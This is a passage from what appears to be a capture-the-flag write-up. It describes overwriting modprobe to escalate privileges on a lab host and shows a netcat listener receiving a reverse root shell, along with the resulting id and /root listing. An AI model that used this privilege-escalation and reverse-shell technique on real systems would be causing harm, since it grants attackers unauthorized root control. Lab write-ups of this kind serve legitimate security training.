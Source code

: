 ```bash
./exploit
```

This process has now overwritten `modprobe`. To trigger the exploit and gain elevated privileges, we run:

```bash
./b
```

Successfully executing the above commands, we achieve root access and can now retrieve the flag. Here's how we confirmed our escalated privileges and accessed sensitive files:

```bash
$ nc -nlvp 1234
Connection from 10.129.231.37:51452
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@neohub:/# id
uid=0(root) gid=0(root) groups=0(root)
root@neohub:/# ls /root
root.txt
snap
root@neohub:/#
```

This sequence confirms that we have successfully exploited the vulnerability to gain root access on the system.

